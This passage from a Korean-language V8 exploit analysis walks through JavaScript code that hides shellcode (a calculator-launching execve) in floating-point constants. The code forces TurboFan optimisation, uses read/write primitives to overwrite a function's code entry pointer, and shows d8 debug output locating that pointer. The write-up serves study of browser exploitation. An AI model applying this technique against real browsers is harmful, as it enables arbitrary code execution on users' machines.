Exploit 분석을 위한 Wasm에 대한 지식은 이 정도면 충분하기 때문에 Wasm에 대해 더 궁금하시다면 자세한 Spec이 나와있는 [https://www.webassembly.org](https://www.webassembly.org에)를 참고하시면 좋을 것 같습니다.

```jsx
const foo = () =>
{
	// execve("/usr/bin/xcalc", ["/usr/bin/xcalc"], ["DISPLAY=:0"])
	return [1.9553820986592714e-246, 1.9563263856661303e-246, 1.97118242283721e-246, 1.953386553958016e-246, 1.9563405961237867e-246, 1.9560656634566922e-246, 1.9711824228871598e-246, 1.9542147542160752e-246, 1.9711160659893061e-246, 1.9570673214474156e-246, 1.9711826530939365e-246, 1.9711829003216748e-246, 1.9710251545829015e-246, 1.9554490389999772e-246, 1.9560284264452913e-246, 1.9710610293119303e-246, 5.4982667050358134e-232, 5.505509694889265e-232, 5.548385865542889e-232, 5.5040937958710434e-232, 5.548386605550227e-232];	}

// Trigger optimisation of function so the bytecode is stored in heap
// Done first so garbage collection does not affect later stages

for (let i = 0; i < 0x10000; i++) { foo(); } 

// ...
// the rest of the exploit
// ...

foo_addr = addrof(foo);

code_container = lower(heap_read64(foo_addr + -1n + 0x18n));
code_entry_addr = code_container + -1n + 0x10n;
code_entry = heap_read64(code_entry_addr);

print("addrof foo = ", hex(foo_addr));
print("code container = ", hex(code_container));
print("code entry = ", hex(code_entry));

// Overwrite code entry to start of user-controlled doubles
heap_write64(code_entry_addr, code_entry + 0x66n); 

foo(); // Executes user-controlled doubles as shellcode
```

### 2.3.Exploit 분석

`AAR`, `AAW` 프리미티브를 획득하고, 부동소수점 쉘 코드가 포함되어 있는 `JSFunction`을 TurboFan으로 optimize한 후, `code entry` 포인터를 덮어써 익스플로잇합니다.

```
d8> %DebugPrint(foo)
DebugPrint: 0x20aa003888a9: [Function] in OldSpace
 - map: 0x20aa00244245 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x20aa002440f9 <JSFunction (sfi = 0x20aa0020aad1)>
 - elements: 0x20aa00002259 <FixedArray[0]> [HOLEY_ELEMENTS]
 ...
 - code: 0x20aa0020b3a9 <CodeDataContainer BUILTIN InterpreterEntryTrampoline>
 ...
 
d8> %DebugPrintPtr(0x20aa0020b3a9)
DebugPrint: 0x20aa0020b3a9: [CodeDataContainer] in OldSpace
 - map: 0x20aa00002a71 <Map[32](CODE_DATA_CONTAINER_TYPE)>
 - kind: BUILTIN
 - builtin: InterpreterEntryTrampoline
 - is_off_heap_trampoline: 1
 - code: 0
 - code_entry_point: 0x7fff7f606cc0 <- 여기를 덮어쓰게 됩니다.
```
